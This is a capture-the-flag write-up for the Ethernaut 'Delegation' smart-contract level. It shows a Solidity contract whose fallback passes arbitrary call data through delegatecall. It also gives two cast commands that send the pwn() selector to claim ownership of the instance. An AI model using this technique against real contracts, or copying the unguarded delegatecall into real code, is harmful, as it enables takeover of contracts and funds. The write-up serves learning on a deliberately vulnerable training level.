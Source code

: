 ## Delegation Level Outline

**Difficulty : 4/10**

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution

We can **spoof** the delegate call by sending a transation that contains the function signature to the "pwn()" function.

### Walkthrough

##### 1. Getting the methodId for the pwn() function
```console
cast calldata "pwn()"
```
output
```console
0xdd365b8b
```
##### 2. Making a call to the fallback function where `msg.data` equals the calcualted methodId
```console
cast send $LEVEL_ADDRESS 0xdd365b8b --gas 50000 --private-key $PRIVATE_KEY 
```
> we need to set a custom gas limit for this transaction as the default amount insufficient

## Further Reading
[Video on Delegatecall](https://www.youtube.com/watch?v=uawCDnxFJ-0&t=208s)

[More info about methodId](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html)




---

##### [:arrow_left: Back To Main Menu](../README.md)
